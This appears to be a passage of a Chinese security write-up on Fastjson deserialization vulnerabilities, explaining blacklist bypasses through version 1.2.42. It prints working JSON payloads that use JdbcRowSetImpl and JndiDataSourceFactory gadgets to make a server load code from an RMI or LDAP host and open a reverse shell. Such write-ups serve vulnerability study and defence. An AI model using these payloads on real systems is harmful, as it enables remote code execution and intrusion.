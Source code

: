 ![](https://mmbiz.qpic.cn/sz_mmbiz_png/nzxUaDY8yDBgS6pTSYkXwJrg7MzQJkdO4H70lInQoxhvHu03BGbh6Gt4o2xPMXgpnraOicSxywicmuFGa6hw56dw/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/sz_mmbiz_png/nzxUaDY8yDBgS6pTSYkXwJrg7MzQJkdOUNHVEicwfZBnLYR2O8BdUM7z1jSQZ1mNaXe2z1rwlupqPoR6KXdDyiaQ/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/sz_mmbiz_png/nzxUaDY8yDBgS6pTSYkXwJrg7MzQJkdOY0XibZT8rwDjo9dHicia0z8FeHkOyQ4oiarTicJO0rzQKibVSvkZorrfCLvg/640?wx_fmt=png)

反弹 shell；  

```
{           
  "@type":"Lcom.sun.rowset.JdbcRowSetImpl;",
  "dataSourceName":"rmi://x.x.x.x:9999/rce_1_2_24_exploit",
  "autoCommit":true
}
```

![](https://mmbiz.qpic.cn/sz_mmbiz_png/nzxUaDY8yDBgS6pTSYkXwJrg7MzQJkdOuyiaMGFucqvU12LhEl3yibyUfich5rucPFwuay2ib9AXEzUh9TkYFTQb9w/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/sz_mmbiz_png/nzxUaDY8yDBgS6pTSYkXwJrg7MzQJkdOo65jWbqcKSpahrEXcTzLMcoJ7Q2Boaaz7mpfY0Ye07jAWv1zVhkoQw/640?wx_fmt=png)

### **2.3 fastjson<=1.2.41 漏洞详情**

第一个 Fastjson 反序列化漏洞爆出后，阿里在 1.2.25 版本设置了 autoTypeSupport 属性默认为 false，并且增加了 checkAutoType() 函数，通过黑白名单的方式来防御 Fastjson 反序列化漏洞，因此后面发现的 Fastjson 反序列化漏洞都是针对黑名单绕过来实现攻击利用的目的的。com.sun.rowset.jdbcRowSetlmpl 在 1.2.25 版本被加入了黑名单，fastjson 有个判断条件判断类名是否以 "L" 开头、以 ";" 结尾，是的话就提取出其中的类名在加载进来，因此在原类名头部加 L，尾部加; 即可绕过黑名单的同时加载类。  

##### exp：

```
原类名：com.sun.rowset.JdbcRowSetImpl
绕过：LLcom.sun.rowset.JdbcRowSetImpl;;
```

autoTypeSupport 属性为 true 才能使用。（fastjson>=1.2.25 默认为 false  

**2.4 fastjson<=1.2.42 漏洞详情**  

##### fastjson 在 1.2.42 版本新增了校验机制。如果输入类名的开头和结尾是 L 和; 就将头尾去掉再进行黑名单校验。绕过方法：在类名外部嵌套两层 L 和;。

```
{           
  "@type":"LLcom.sun.rowset.JdbcRowSetImpl;;",
  "dataSourceName":"rmi://x.x.x.x:9999/exp",
  "autoCommit":true
}
```

##### exp：

```
{"@type":"org.apache.ibatis.datasource.jndi.JndiDataSourceFactory","properties":{"data_source":"ldap://localhost:1389/Exploit"}
```
